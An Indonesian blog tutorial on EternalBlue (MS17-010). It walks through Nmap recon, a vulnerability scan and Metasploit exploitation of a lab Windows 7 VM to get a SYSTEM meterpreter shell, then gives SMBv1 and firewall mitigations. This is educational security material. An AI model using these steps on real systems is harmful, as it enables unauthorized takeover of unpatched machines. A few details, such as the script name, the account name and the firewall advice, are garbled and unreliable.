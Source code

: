 ```yaml
---
title: "Eternalblue (MS17-010)"
date: 2024-03-21T18:54:33+07:00
draft: false
cover:
  image: "/eternalblue/cover.png"
  alt: 'Eterbalblue (MS17-010)'
  caption: "eternalblue - metasploit"
tags: ["metasploit", "tutorial", "cyber security"]
categories: ["hacking"]
---
```


# Sejarah (Singkat)

Apa itu Eternalblue?

Eternalblue atau oleh Microsoft disebut dengan MS17-010 adalah sebuah [**exploit**](https://en.wikipedia.org/wiki/Exploit_(computer_security)) yang dapat digunakan untuk menyebarkan ***malware*** pada sebuah mesin Windows. Eternalblue adalah eksploit yang pada awalnya ditemukan oleh [NSA (_National Security Agency_) Amerika Serikat](https://www.nsa.gov/) untuk memanfaatkan kerentanan pada SMB v1 (_Server Message Block_ versi 1)  di Windows, terutama pada Windows 7 dan Windows XP.[^1] 

Exploit ini tidak dilaporkan oleh NSA ke pihak Microsoft karena menguntungkan pihak NSA untuk melakukan mata-mata terhadap lawan-lawan politiknya. Ketika NSA mengetahui bahwa ternyata exploit tersebut sudah bocor (dicuri), Microsoft akhirnya mengumumkan *security pacthes* terhadap kerentanan atau *vulnerability* tersebut pada Maret 2017. Exploit tersebut dibocorkan kepada publik oleh sebuah kelompok ***hacker*** bernama [The Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers) pada April 2017. Segera setelah rilisnya exploit tersebut ke publik, pada May 2017, dilaporkan [*ransomware* Wannacry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) mulai menginfeksi banyak komputer di seluruh dunia menggunakan exploit Eternalblue tersebut[^2].

# Demo Exploitasi - Offensive

Saya akan memberikan demo eksploitasi kerentanan SMBv1 ini menggunakan exploit Eternalblue (MS17-010) yang sudah terdapat dalam [Metasploit](https://www.metasploit.com/). 
Secara singkat, Metasploit adalah sebuah ***framework*** berbasis [*open-source*](https://en.wikipedia.org/wiki/Open_source) yang digunakan untuk *exploit development* dan *vulnerability research*.
![ss1](/eternalblue/ss1.png)

Kita akan melakukan setidaknya 3 proses untuk melakukan eksploitasi, yaitu
- Recon
- Vulnerability Scanning, dan
- Exploitation

## Recon

Di sini, saya sudah memiliki sebuah mesin VM *(Virtual Machine)* Windows 7 sebagai target yang akan dieksploitasi kerentanan SMB-nya.
Pada tahap ini, kita akan terlebih dahulu melakukan *reconnaissance* atau pemeriksaan (atau dalam bahasa militernya adalah mata-mata) terhadap target yang akan dieskploitasi. 
Hal yang perlu dipastikan dalam tahap dan konteks ini adalah bahwa **_service_ SMBv1 berjalan di mesin target**.
![ss2](/eternalblue/ss2.png)

Saya akan menggunakan [Nmap](https://nmap.org/) untuk melakukan proses recon ini.
```bash
nmap -vv -sV 192.168.0.120 -o result.nmap
```
![ss3](/eternalblue/ss3.png)

Dari hasil Nmap tersebut, kita tahu bahwa _service_ SMB sedang *running*. 

Port *`139`* dan *`445`* adalah port default untuk menjalankan _service_ SMB ini.
![ss4](/eternalblue/ss4.png)

## Vulnerability Scanning

Setelah mengetahui bahwa target mesin tersebut (Windows 7) menjalankan SMB, sekarang, kita akan melakukan _vulnerability scanning_ untuk melihat, apakah SMB tersebut rentan untuk dieksploitasi.

Untuk tahap ini, saya lagi-lagi akan menggunakan Nmap dengan script `smb-vuln-ms17-101.nse` yang juga terdapat di **/usr/share/nmap/scripts**.
```bash
nmap -vv -sV --script=smb-vuln-ms17-010.nse -p139,445 192.168.0.120 -o vuln.nmap
```
![ss8](/eternalblue/ss8.png)
Ya, berdasarkan hasil *scanning* Nmap, kita tahu bahwa *service* SMB tersebut rentan (*vulnerable*) terhadap eksploitasi Eternalblue.

## Exploitation

Sekarang, kita akan melakukan eksploitasi terhadap kerentanan tersebut.
Saya akan menggunakan Metasploit sebagai *tools* dalam melakukan tahap eksploitasi ini. 

Pertama, kita dapat menjalankan Metasploit dengan mengetikkan perintah
```bash
msfconsole -q
```

Selanjutnya, kita akan mencari modul eksploit Eternalblue dan menginputkan IP Address target mesin kita (Windows 7) ke opsi **RHOSTS**.
```bash
msf6> search eternalblue
msf6> use 0
msf6> set rhosts 192.168.0.120
```
![ss9](/eternalblue/ss9.png)

Kita bisa memastikan semua opsi untuk melakukan eksploitasi di modul Eternalblue (MS17-010) ini sudah terpenuhi dengan mengetikkan perintah berikut:
```bash
msf6> options
```
![ss10](/eternalblue/ss10.png)
Lingkaran yang berwarna merah adalah IP target kita (Windows 7). Adapun lingkaran yang berwarna hijau adalah IP mesin *attacker* kita (Kali Linux).

Untuk memulai eksploitasi, kita dapat mengetikkan perintah
```bash
msf6> exploit
```
atau
```bash
msf6> run
```
![ss11](/eternalblue/ss11.png)

Yapp, kita baru saja berhasil mengeksploitasi SMBv1 dengan eskploit Eternalblue (MS17-010)!!!

Ketika kita sudah mendapatkan shell tersebut (meterpreter), kita sebagai *attacker* sudah dapat melakukan apa saja, mulai dari melakukan *screenshot*, *screen recording*, *camera recoding*, dan lain-lain yang pada intinya, kita sudah seperti memiliki atau memegang komputer atau laptop dengan Windows 7 tersebut!

Apalagi, kalau diperhatikan, Eternalblue ini memberikan kita akses shell dengan *privilege* yang tinggi (nt authority\system32) atau root jika di Linux. Artinya, kita benar-benar sudah menguasai mesin korban tersebut.

Dengan melihat kemudahan eksploitasinya dan dampak aksesnya, kita bisa menyimpulkan bahwa eksploit ini sangat berbahaya sekali, bukan?

# Pencegahan - Defensive

Beberapa hal yang dapat kita lakukan sebagai tindakan preventif terhadap exploitasi Eternalblue ini di Windows 7 yaitu:
1. Mematikan *service* SMBv1, apalagi jika kalian tidak sering (atau bahkan) tidak pernah menggunakan *service* ini untuk *file sharing*. 
Cara menonaktifkan SMBv1 dapat dilakukan dengan mengetikkan perintah berikut di Powershell[^3]:
```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 0 -Force
```
2. Selain itu, kalian juga perlu memastikan Firewall tidak dihidupkan disembarang jaringan, apalagi jaringan publik. Kalau perlu, hidupkan saja firewallnya, baik di *private* maupun di *public network*.
![ss12](/eternalblue/ss12.png)

Ok, sekian dulu untuk tutorial eksploitasi Eternalblue (MS17-010) kali ini.

Terima kasih!


[^1]: https://nordvpn.com/blog/what-is-eternalblue/
[^2]: https://en.wikipedia.org/wiki/EternalBlue
[^3]: https://learn.microsoft.com/id-id/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
